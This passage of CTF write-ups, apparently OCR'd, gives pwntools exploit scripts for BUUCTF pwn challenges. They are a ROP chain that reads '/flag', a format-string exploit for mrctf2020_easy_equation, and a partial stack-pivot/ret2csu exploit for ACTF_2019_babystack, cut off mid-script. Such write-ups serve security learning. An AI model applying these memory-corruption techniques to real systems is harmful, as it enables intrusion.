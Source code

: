 ```py
payload += p32(write_addr)
payload += p32(0) * 3
payload += p32(elf.symbols['read'])
payload += p32(pop4)
payload += p32(3)
payload += p32(write_addr)
payload += p32(0x30)
payload += p32(0)
payload += p32(elf.symbols['write'])
payload += p32(0)
payload += p32(1)
payload += p32(write_addr)
payload += p32(0x30)

io.sendlineafter(b'GIVE ME YOUR NAME!', payload)
time.sleep(0.5)
io.sendline(b'/flag')
io.interactive()
```

# buu079-mrctf2020_easy_equation
简单的格式化字符串漏洞。
```py
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

sol = 2
# io = process('./mrctf2020_easy_equation')
io = remote('node4.buuoj.cn', 25629)
elf = ELF('./mrctf2020_easy_equation')

# gdb.attach(io)
# time.sleep(3)
payload = b'a%1c%10$hhnaaaaba' + p64(0x60105C)
print(payload)
io.sendline(payload)
io.interactive()
```

# buu080-ACTF_2019_babystack
这一题本来是只能溢出8个字节，即刚好覆盖返回地址，这种情况可以通过修改rbp的值，返回到leave ; ret指令方法来进行栈迁移。正好本题给出了一个栈地址，就可以利用这个栈地址覆写rbp，然后栈迁移。

本题使用到了ret2csu的方法，因为一开始不知道libc基址，于是首先通过调用puts函数的plt表获取libc基地址，然后在后面调用一个read函数，继续补全下面的ROP链（补充system函数调用的部分）。
```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'

# io = process('./ACTF_2019_babystack')
io = remote('node4.buuoj.cn', 26302)
elf = ELF('./ACTF_2019_babystack')

io.sendlineafter(b'>', b'224')
io.recvuntil(b'Your message will be saved at ')
stack_addr = int((io.recvuntil(b'\n', drop=True).decode())[2:], 16)
print(hex(stack_addr))

poprdi_ret = 0x400ad3
main = 0x4008F6
```